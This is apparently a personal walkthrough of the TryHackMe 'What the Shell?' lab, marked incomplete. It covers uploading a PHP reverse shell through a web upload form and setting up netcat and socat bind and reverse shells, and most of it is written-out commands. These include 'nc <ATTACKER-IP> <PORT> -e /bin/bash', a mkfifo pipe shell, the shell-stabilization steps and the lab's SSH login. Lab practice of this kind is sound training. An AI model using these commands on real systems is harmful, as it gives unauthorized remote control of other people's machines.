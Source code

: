 # TRYHACKME : What the Shell? (INCOMPLETE)
***NOTE: Documented this incase I'll be using the same method to other ctf challenges.***

## Linux Shell Sandbox
> Start the target linux machine from **Task 14** and set up your ovpn if you're using local server.

> ## Webshell
> Go to `/usr/share/webshells/php`.
> Get a copy of the file `php-reverse-shell.php`, then rename it into `rshell.php`.
>
> Open the file. Then edit the `$ip` to be your tun0 IP. You can change the `$port` or leave it as it is, which is `1234`.
>
> Open **browser** and input the http of the **target machine**.
>
> Browse the `rshell.php` and submit it. Then proceed into `uploads/` directory. Don't click `rshell.php` yet.
>
> Then into your **terminal**, open **netcat** listener: `nc -lvnp 1234`
>
> Back to your browser, and concatenate beside `uploads/` this: `rshell.php?cmd=nc <TUN0 IP> 1234 -e /bin/bash`.
>
> Go back to the terminal, and you can now access the reverse shell.

> ### Stabilize Netcat
> *Credits to [YCZHU](https://medium.com/@zycc2727/tryhackme-what-the-shell-61b54eda78e6)*
>> In the reverse shell:
```
> python3 -c 'import pty;pty.spawn("/bin/bash")' // try python, python2, and python3 in order
> export TERM=xterm
// hit `ctrl + z` to bg terminal
> stty raw -echo; fg
[1] + continued nc -lvnp 1234
```

> ## Experiment Bind & Reverse Netcat Shells with SSH 
> Let's now proceed connecting through SSH with the given credentials:
> 
> `Username:shell Password:TryH4ckM3!`
> ```
> ssh shell@<TARGET-IP>
> ```
> ## Bind Shell
> `Process: TARGET MACHINE = LISTENER + EXECUTE BASH <-- ATTACKER MACHINE = CONNECTOR`
> 
> Based on Task 8, instead of `nc -lvnp <PORT> -e /bin/bash` which is stated to be widely vulnerable for Linux, we'll be using instead a lengthy command `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.
>
>> ### NETCAT
>> #### Target Machine:
>> ```
>> shell@linux-shell-practice:~$ whoami
>> shell
>> shell@linux-shell-practice:~$ mkfifo /tmp/f; nc -lvnp <TARGET-PORT> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
>> listening on [any] <TARGET-PORT> ...
>> connect to <TARGET-IP> from (UNKNOWN) <ATTACKER-IP> <ATTACKER-PORT>
>>```
>> #### Attacker Machine:
>> ```
>> $ nc <TARGET-IP> <TARGET-PORT>
>> whoami
>> shell
>> pwd
>> /home/shell
>> ```
>> 
>> ### SOCAT (unencrypted)
>> #### Target Machine:
>> ```
>> shell@linux-shell-practice:~$ whoami
>> shell
>> shell@linux-shell-practice:~$ socat TCP-L:<TARGET-IP> EXEC:"bash -li"
>> ```
>> #### Attacker Machine:
>> ```
>> $ whoami
>> local
>> $ socat TCP:<TARGET-IP>:<TARGET-PORT> -
>> whoami
>> shell
>> ```

> ## Reverse Shell
> `Process: ATTACKER MACHINE = LISTENER <-- TARGET MACHINE = CONNECTOR + EXECUTE BASH`
> 
>> ### NETCAT
>> #### Attacker Machine:
>> ```
>> $ whoami
>> local
>> $ nc -lvnp <ATTACKER-PORT>
>> listening on [any] <ATTACKER-PORT> ...
>> // after executing Target Machine
>> connect to <ATTACKER-IP> from (UNKNOWN) <TARGET-IP> <TARGET-PORT>
>> whoami
>> shell
>> ```
>> #### Target Machine:
>> ```
>> shell@linux-shell-practice:~$ whoami
>> shell
>> shell@linux-shell-practice:~$ nc <ATTACKER-IP> <ATTACKER-PORT> -e /bin/bash
>> 
>> ```
>> 
>> ### SOCAT (unencrypted)
>> #### Attacker Machine:
>> ```
>> $ whoami
>> local
>> $ socat TCP-L:<port> -
>> // after Target Machine Execution
>> whoami
>> shell
>> ```
>> #### Target Machine:
>> ```
>> shell@linux-shell-practice:~$ whoami
>> shell
>> shell@linux-shell-practice:~$ socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
>> ```
>

